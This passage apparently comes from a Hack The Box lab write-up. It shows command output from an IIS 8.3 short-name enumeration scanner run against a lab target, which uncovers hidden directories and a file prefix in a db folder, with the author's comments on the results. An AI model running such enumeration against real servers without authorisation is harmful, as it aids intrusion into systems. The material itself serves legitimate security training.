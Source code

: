 ```bash
[+] /trashe~1   [scan in progress]
[+] Directory /trashe~1 [Done]
----------------------------------------------------------------
Dir:  /ds_sto~1
Dir:  /newfol~1
Dir:  /templa~1
Dir:  /trashe~1
----------------------------------------------------------------
4 Directories, 0 Files found in total
Note that * is a wildcard, matches any character zero or more times.
```

I'm unsure why the script omits the dot before `.DS_Store`. It classifies it as a directory because, in the 8.3 naming scheme, files without an extension are interpreted as directories.

What's more intriguing is the behavior when I run the script against the `/dev` directories. At the root, it only detects `.DS_Store` and the two hash directories that I already know exist. Inside each of the hash directories, it only identifies `.DS_Store`. Interestingly, it shows that the `src`, `include`, and `core` directories are not vulnerable, but the `db` directory displays what seems to be the same file in both instances:

```bash
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/P.O.O/web enum/IIS_shortname_Scanner]
└─$ python3 iis_shortname_scan.py  http://10.13.38.11/dev/
Server is vulnerable, please wait, scanning...
[+] /dev/d~1.*  [scan in progress]
[+] /dev/3~1.*  [scan in progress]
[+] /dev/ds~1.* [scan in progress]
[+] /dev/dc~1.* [scan in progress]
[+] /dev/30~1.* [scan in progress]
[+] /dev/ds_~1.*        [scan in progress]
[+] /dev/dca~1.*        [scan in progress]
[+] /dev/304~1.*        [scan in progress]
[+] /dev/ds_s~1.*       [scan in progress]
[+] /dev/dca6~1.*       [scan in progress]
[+] /dev/304c~1.*       [scan in progress]
[+] /dev/ds_st~1.*      [scan in progress]
[+] /dev/dca66~1.*      [scan in progress]
[+] /dev/304c0~1.*      [scan in progress]
[+] /dev/ds_sto~1.*     [scan in progress]
[+] /dev/dca66d~1.*     [scan in progress]
[+] /dev/304c0c~1.*     [scan in progress]
[+] /dev/ds_sto~1       [scan in progress]
[+] Directory /dev/ds_sto~1     [Done]
[+] /dev/dca66d~1       [scan in progress]
[+] Directory /dev/dca66d~1     [Done]
[+] /dev/304c0c~1       [scan in progress]
[+] Directory /dev/304c0c~1     [Done]
----------------------------------------------------------------
Dir:  /dev/ds_sto~1
Dir:  /dev/dca66d~1
Dir:  /dev/304c0c~1
----------------------------------------------------------------
3 Directories, 0 Files found in total
Note that * is a wildcard, matches any character zero or more times.
                                                                                 
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/P.O.O/web enum/IIS_shortname_Scanner]
└─$ python3 iis_shortname_scan.py  http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc/db 
Server is vulnerable, please wait, scanning...
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/p~1.*      [scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/po~1.*     [scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo~1.*    [scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_~1.*   [scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_c~1.*  [scan in progress]
```